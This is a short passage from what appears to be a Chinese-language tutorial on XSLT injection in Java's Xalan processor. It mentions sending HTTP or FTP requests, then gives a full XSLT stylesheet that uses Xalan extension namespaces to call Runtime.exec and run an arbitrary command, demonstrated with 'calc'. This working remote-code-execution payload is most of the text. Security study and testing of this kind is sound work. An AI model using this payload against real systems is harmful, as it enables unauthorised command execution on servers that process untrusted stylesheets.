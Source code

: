 ![QQ_1730880247804](images/5.png)

可以发送HTTP请求，也可以发送FTP请求等

## 命令执行

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">

        // 执行任意命令
        <xsl:variable name="rtobject" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtobject,'calc')"/>
        <xsl:variable name="processString" select="ob:toString($process)"/>
        <xsl:value-of select="$processString"/>
    </xsl:template>
</xsl:stylesheet>
```

![QQ_1730880490611](images/6.png)
